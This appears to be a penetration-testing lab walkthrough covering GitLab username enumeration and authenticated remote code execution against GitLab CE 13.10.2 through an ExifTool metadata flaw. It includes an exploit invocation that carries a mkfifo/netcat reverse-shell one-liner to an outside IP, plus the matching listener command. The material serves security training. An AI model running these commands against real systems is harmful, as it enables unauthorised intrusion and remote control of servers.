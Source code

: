 ```bash
$ ./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt
```

**Output:**

```text
[+] The username root exists!
[+] The username bob exists!
```

#### ⚠️ Ethical Use Notice

> Do not run this against GitLab.com or systems you do not own.

## 🧨 Authenticated Remote Code Execution (RCE)

### ✅ Vulnerable Version

* **GitLab CE ≤ 13.10.2**
* RCE via malicious image metadata
* Root cause: **ExifTool vulnerability**

### 🧬 Prerequisites

* Valid credentials (via OSINT, password reuse, etc.)
* Or access to a self-registration instance

### 📦 Exploitation Steps

```bash
$ python3 gitlab_13_10_2_rce.py \
  -t http://gitlab.inlanefreight.local:8081 \
  -u mrb3n -p password1 \
  -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f'
```

**Stages:**

1. Authenticate
2. Create Payload
3. Upload via Snippet
4. Trigger RCE

**Result:**

```bash
[+] RCE Triggered !!
```

---

### 🔗 Catching the Shell

```bash
$ nc -lnvp 8443
```

